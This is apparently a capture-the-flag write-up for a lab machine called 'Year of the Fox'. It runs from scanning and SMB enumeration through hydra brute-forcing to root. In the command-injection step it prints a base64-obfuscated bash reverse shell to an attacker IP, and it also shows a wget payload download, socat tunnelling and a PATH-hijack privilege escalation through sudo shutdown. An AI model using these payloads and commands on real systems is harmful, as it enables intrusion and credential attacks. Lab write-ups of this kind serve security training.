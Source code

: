 # Year of the Fox
### Difficulty: Hard
------------------------------------------------------

Let's start with nmap scan:
```bash
nmap -sV -sC 10.10.37.83 | tee scans/first.nmap
```

Results:
```bash
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
|_clock-skew: mean: -20m00s, deviation: 34m38s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-14T08:14:40
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2023-05-14T09:14:40+01:00
```

There are 3 open ports on this machine - 80 (HTTP) and 139 & 445 (SMB), also, this is a linux machine.

I'll start with the http service:
![image](https://github.com/yuvalbatan/writeups/assets/114166939/7ea1de55-4d58-40aa-a30c-5715db5048de)


Right now I don't have enough information for this authentication, let's see what the request and response looks like with "curl" tool:
```bash
curl -I http://10.10.37.83
```

Answer:
```bash
HTTP/1.1 401 Unauthorized
Date: Sun, 14 May 2023 13:47:30 GMT
Server: Apache/2.4.29 (Ubuntu)
WWW-Authenticate: Basic realm="You want in? Gotta guess the password!"
Content-Type: text/html; charset=iso-8859-1
```

According to this, I should brute-force the password using the username.

Let's move on to the smb service.

To investigate this service I'll use the "enum4linux" tool:
```bash
enum4linux -a 10.10.37.83
```

It found users:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/a9cf6f78-7b36-4aa8-9258-4387bddc8b9c)


One of them is supposed to be the user on the website. I'll go back to the HTTP service and use the "hydra" tool to brute force the password:

Let's start with rascal user -
```bash
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.37.83 http-get
```

Got the password!

![image](https://github.com/yuvalbatan/writeups/assets/114166939/48b05a05-1f8d-49c6-907a-814da8671998)

Let's log-in to the website:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/cc1e37a6-8db5-41bb-8ed7-c59e0d9a67f5)

I'll catch the request of the input with the "Interception" at the "Proxy" tab in Burp-Suite:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/f30ba5bd-fa5c-4008-a797-255a00b6f1cc)


Send it to the "Repeater" with "CTRL + R".

We can see that there is some interaction with the server by sending a value in the "target" key.

This request in vulnerable for command injection:

Request:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/2ae1941a-a65f-41de-b318-4a81215942e3)

Response:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/a7955499-6578-41d5-97ab-73856eb1489a)


If I can run "pwd" then I can run a reverse shell!

Not many OS commands work because of some sanitization, so I'll have to obfuscate my reverse shell command.

For starter I'll build the reverse shell command:
```bash
/bin/bash -i >& /dev/tcp/10.14.50.11/6563 0>&1
```

Next, I'll encode this command to it's base64 value:
```bash
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjE0LjUwLjExLzY1NjMgMD4mMQ==
```

Now the payload will look like:
```bash
{"target":"\";echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjE0LjUwLjExLzY1NjMgMD4mMQ== | base64 -d | bash; \""}
```

I'll establish a net-cat listener on my machine:
```bash
nc -lnvp 6563
```

After sending the request, I got a shell with user "www-data"!

![image](https://github.com/yuvalbatan/writeups/assets/114166939/7d424bdc-e77f-42a5-af06-8521495157c8)

Next step is to print the first flag, "web-flag.txt", which located on "/var/www":

![image](https://github.com/yuvalbatan/writeups/assets/114166939/318c3e64-2c4b-4e88-9b89-0ad25ff55c1b)

Now, I'll print all the open ports on the machine with the command:
```bash
netstat -tln
```

Results:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/105be6c4-55cd-4015-8e1f-18ae16ec35c3)

This is quite interesting, port 22 (SSH) is open on localhost (127.0.0.1).

Let's see in its configuration directory if we can find anything interesting about this service.

I'll open "/etc/ssh", and open "sshd_config" file:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/04eb6ea8-d3ab-4ea8-bff1-57f9397ae935)

Only fox user can enter via this service.

In the case that this service is listening on localhost, even though I'm on the same network, I'm unable to connect or see it's open (nmap scan results didn't show port 22).

This is a classic case for tunneling (or port forwarding).

Because this machine has no "socat" on it, I'll download socat from "https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat" on my machine. Next, I'll open a python3 server at the same location as the socat file:
```bash
python3 -m http.server
```

I'll enter a folder which I can write to and execute from. Let's go to the "/tmp" folder:
```bash
cd /tmp
```

I'll download the file on the victim machine with wget command:
```bash
wget http://10.14.50.11:8000/socat
```

Give it execution permissions:
```bash
chmod +x socat
```

And run the command to tunnel 127.0.0.1:22 to the public IP of the machine on port 2423:
 ```bash
./socat TCP-LISTEN:2423,fork TCP:127.0.0.1:22
 ```

We can check if it worked by scanning the machine again with nmap. 

Looks like it worked:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/7063ebe1-0766-4148-8286-cd807947af52)


From the attacker machine I know I can use the fox user, so let's brute-force our way using hydra:
```bash
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.37.83:2423
```

Got the password!

![image](https://github.com/yuvalbatan/writeups/assets/114166939/a71ee94c-4acb-49ad-9153-c6bd8e1db502)

Log in with the command:
```bash
ssh fox@10.10.37.83 -p 2423
```

![image](https://github.com/yuvalbatan/writeups/assets/114166939/a3240b59-69c9-4369-ad90-694971f28bd3)

To begin with, I'll find the second flag, "user-flag.txt", which is located in the fox user home directory:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/30183853-00fe-4b77-941b-cfee0881310f)

Alright, let's gather some information about this user permissions:
```bash
sudo -l
```

![image](https://github.com/yuvalbatan/writeups/assets/114166939/738477c7-7723-4412-bd0f-f218d9b7a359)


A quick search on the internet will give us the result "https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-shutdown-poweroff-privilege-escalation/", I'll use these permissions to get to the root with the commands:
```bash
echo /bin/bash > /tmp/poweroff && chmod +x /tmp/poweroff && export PATH=/tmp:$PATH && sudo /usr/sbin/shutdown
```

Got the root user!

![image](https://github.com/yuvalbatan/writeups/assets/114166939/46212b77-9ae3-41d6-9fc0-4fe4c306ddd3)


Let's get the final flag, "root.txt" from the root home directory:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/84df8284-8298-4d2a-9343-cc62169861f2)


Ok! It's not here.

Let's go to the only home directory we didn't enter or used before - the "rascal" home directory, which as root we can enter.

Here I found the real final flag which is called ".did-you-think-I-was-useless.root" which is a bit messy but correct:

![image](https://github.com/yuvalbatan/writeups/assets/114166939/5dc9e0f3-a49d-4e3d-9821-770f5ce46f2a)
